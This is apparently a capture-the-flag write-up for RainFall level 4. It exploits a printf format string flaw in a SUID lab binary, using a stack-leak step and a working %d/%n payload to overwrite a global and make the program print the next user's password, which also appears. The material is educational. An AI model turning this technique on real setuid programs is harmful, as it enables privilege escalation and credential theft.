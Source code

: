 # Level 4

## Vulnerability

printf() format string attack with %d

## Context

We find a binary with owner level5 and SUID.
```
level4@RainFall:~$ ls -l
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
The binary seems to do the same thing as in previous levels, read from stdin, and print what is given.
```
level4@RainFall:~$ ./level4
oh hi!
oh hi!
```

## Solution

Investigating with gdb, we find fgets(), unfortunately protected against buffer overflow attack. But printf() may provide our vulnerability, similar to the last level.
```
level4@RainFall:~$ gdb -q level4
...
(gdb) disas main
...
   0x080484ad <+6>:	call   0x8048457 <n>
...
(gdb) disas n
...
...
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>  ; call fgets()
...
   0x08048488 <+49>:	call   0x8048444 <p>          ; call function p() which calls printf()
   0x0804848d <+54>:	mov    0x8049810,%eax	      ; load value of global variable "m" at 0x8049810
   0x08048492 <+59>:	cmp    $0x1025544,%eax        ; compare global variable "m" with 0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>       ; if false jump past system() call
   0x08048499 <+66>:	movl   $0x8048590,(%esp)      ; load argument "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:	call   0x8048360 <system@plt> ; call system("/bin/cat /home/user/level5/.pass")
...
(gdb) disas p
...
   0x08048450 <+12>:	call   0x8048340 <printf@plt> ; call printf()
```
After calling printf() the binary compares the value of global variable ```m``` at ```0x8049810``` to ```0x1025544``` (16930116 in decimal).
If true a call to system() launches a shell.

Let's use the printf() format string exploit to change the value of variable ```m``` to ```0x1025544```.

First let's print the stack to find the address of the variable we wish to modify.
```
level4@RainFall:~$ (python -c 'print "BBBB" + " %x" * 13' ; cat -) | ./level4
BBBB b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 42424242 20782520
```
We find buffer BBBB (42424242) in 12th position.

Our target value ```16930116``` is too long for the ```%n``` exploit as used in the last level (%n stores only 4 bytes).
However, we can dynamically specify field width with modifier ```%d```  e.g. ```%16930116d```.

So we build our format string exploit:
1. Address of glabal variable ```m``` (4 bytes)          - "\x10\x98\x04\x08"
2. 16930112 bytes padding using ```%d```                 - "%16930112d"
3. store n bytes printed in 12th argument with ```%n```  - "%12$n"

When we feed our format string attack to the binary it opens a shell and shows us the level5 password.
```
level4@RainFall:~$ (python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | ./level4
...
                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Recreate Exploited Binary

As user level5, in /tmp, create and compile level4_source.c.
```
level5@RainFall:/tmp$ gcc level4_source.c -fno-stack-protector -o level4_source
```
Edit permissions including suid, then move the binary to home directory.
```
level5@RainFall:/tmp$ chmod u+s level4_source; chmod +wx ~; mv level4_source ~
```
Exit back to user level4, then run the source with an updated address of global variable ```m```.
```
level5@RainFall:/tmp$ exit
exit
level4@RainFall:~$ (python -c 'print "\x28\xa0\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | /home/user/level5/level4_source
```
